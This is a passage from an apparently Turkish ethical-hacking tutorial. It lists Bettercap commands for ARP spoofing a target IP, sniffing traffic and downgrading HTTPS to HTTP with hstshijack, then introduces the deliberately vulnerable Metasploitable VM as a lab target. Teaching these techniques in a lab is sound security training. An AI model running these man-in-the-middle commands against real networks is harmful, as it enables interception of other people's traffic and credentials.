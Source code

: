 ![Bettercap Net Sniffing](./assets/17-bettercap-net-sniff.png)

### HTTPS Kırmak
- Hedefimizin IP adresini belirleriz -> **1-2**
- Hedefimize karşı arp spoof başlatırız -> **3**
- Ağda ne olup bittiğini izlemeye başlarız -> **4**
- HTTPS siteleri HTTP'ye yönlendiririz -> **5**
```
1-) set arp.spoof.fullduplex true
2-) set arp.spoof.targets 192.168.1.218
3-) arp.spoof on

4-) net.sniff on

5-) hstshijack/hstshijack
```

# Bilgisayarları Ele Geçirmek
Port açıklarını, sistem hataları vb. açıkları kullanarak sisteme sızmaya çalışacağız. <br>
Bu bölümdeki komutlarımızı ve tool'larımızı kullanırken hedefimiz [Metasploitable](https://sourceforge.net/projects/metasploitable/) (indirme linki örnektir!) olacak.  
## Metasploitable
Metasploitable, üzerinde bilerek açık bulunduran bir sistemdir. Bir sunucu olarak düşünebiliriz. Ağ'daki Metasploitable IP adresini yazarsak üzerinde çalışan web sunucusuna gidecektir. Bunu sanal makinamıza kurmamız gerekmektedir. 
